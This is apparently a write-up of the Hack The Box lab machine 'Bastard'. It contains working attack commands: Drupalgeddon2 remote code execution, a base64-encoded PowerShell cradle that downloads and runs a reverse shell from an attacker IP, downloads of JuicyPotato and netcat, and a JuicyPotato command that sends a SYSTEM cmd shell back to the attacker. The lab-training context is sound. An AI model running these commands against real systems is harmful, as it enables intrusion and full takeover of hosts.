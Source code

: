 # Bastard v.1

## Enumeration

### Legion

> This package contains an open source, easy-to-use, super-extensible and semi-automated network penetration testing tool that aids in discovery, reconnaissance and exploitation of information systems.

{% embed url="https://www.kali.org/tools/legion" %}

### Port 80

#### Version

* Drupal 7.54, 2017-02-01

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_drupal\_version.png)

### RCE

{% embed url="https://github.com/dreadlocked/Drupalgeddon2" %}

```
./drupalgeddon2.rb http://bastard.htb/
.
.
.
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          4/4/2022, 6:15:32 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                          [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
                          [02]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.584 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.611 MB
Virtual Memory: In Use:    484 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                          [01]: Intel(R) PRO/1000 MT Network Connection
                                Connection Name: Local Area Connection
                                DHCP Enabled:    Yes
                                DHCP Server:     10.129.0.1
                                IP address(es)
                                [01]: 10.129.123.241
```

### What is drupalgeddon?

{% embed url="https://cyware.com/news/what-is-drupalgeddon-and-what-kind-of-targets-does-it-go-after-78f558ec" %}

{% embed url="https://www.rapid7.com/blog/post/2018/04/27/drupalgeddon-vulnerability-what-is-it-are-you-impacted" %}

`$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ./ps_tcp.ps1`

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.61 -Port 4444
```

## Shell

The below is less known to AV but did not work because the powershell version on the machine is old

```powershell
powershell -c 'IEX(IWR http://10.10.14.61/ps_tcp.ps1 -UseBasicParsing)'
```

We have to encode our command posisbly due to quotes and bad characters. Powershell accepts base64 encoded commands. We had to convert UTF-8 to 16-bit little indian encoding

```bash
echo -n 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.61/ps_tcp.ps1")' | iconv -f ASCII -t UTF-16LE | base64 | tr -d "\n"

SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANgAxAC8AcABzAF8AdABjAHAALgBwAHMAMQAiACkA 
```

```powershell
drupalgeddon2>> powershell.exe -nop -exec bypass -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANgAxAC8AcABzAF8AdABjAHAALgBwAHMAMQAiACkA
```

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_setup\_listener.png)

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_gained\_shell.png)

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_whoami (1).png>)

## Privledge Escalation

{% embed url="https://youtu.be/eLNYc-1ScdU?t=9033" %}

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_Pasted image 20220404181827.png>)

{% embed url="https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505" %}

{% embed url="https://github.com/ohpe/juicy-potato" %}

```powershell
(New-Object Net.WebClient).downloadFile('http://10.10.14.61/JuicyPotato.exe','JuicyPotato.exe')
```

```powershell
(New-Object Net.WebClient).downloadFile('http://10.10.14.61/nc64.exe','nc64.exe')
```

{% embed url="http://ohpe.it/juicy-potato/CLSID" %}

Any with NT AUTHORITY\SYSTEM will work although it's trial and error to see which one will work&#x20;

Impersonating a SYSTEM process with a different service

```bash
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\inetpub\drupal-7.54\nc64 -e cmd.exe 10.10.14.61 8444" -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_Pasted image 20220404190117.png>)

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_whoami\_system.png)

## Flags

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_userflag.png)

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_rootflag.png)
